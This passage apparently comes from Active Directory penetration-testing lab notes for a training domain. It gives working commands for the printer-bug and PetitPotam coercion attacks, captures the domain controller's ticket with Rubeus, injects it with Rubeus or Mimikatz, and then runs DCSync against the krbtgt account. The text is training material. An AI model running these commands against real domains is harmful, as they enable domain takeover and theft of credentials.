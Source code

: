 

We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:
```powershell
Rubeus.exe monitor /interval:5 /nowrap
```

And after that run MS-RPRN.exe:

[SpoolSample on GitHub](https://github.com/leechristensen/SpoolSample)

```powershell
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

If you are attacking from a Linux machine, check out **Coercer**:

[Coercer on GitHub](https://github.com/p0dalirius/Coercer)

We can also use **PetitPotam**.exe:

[PetitPotam on GitHub](https://github.com/topotam/PetitPotam)

```powershell
 .\PetitPotam.exe us-web us-dc
```

On us-web:
```powershell
.\Rubeus.exe monitor /interval:5
```

> PetitPotam uses **EfsRpcOpenFileRaw** function of **MS-EFSRPC** (Encrypting File System Remote Protocol) protocol and doesn't need credentials when used against a DC.



Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:
```powershell
Rubeus.exe ptt /ticket:
```

Or use Invoke-Mimikatz:
```powershell
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",
[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

Once the ticket is injected, run DCSync:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

Learning Objective 15

- Find a server in dcorp domain where Unconstrained Delegation is enabled.
- Compromise the server and escalate to Domain Admin privileges.
- Escalate to Enterprise Admins privileges by abusing Printer Bug!



## Contrained Delegation
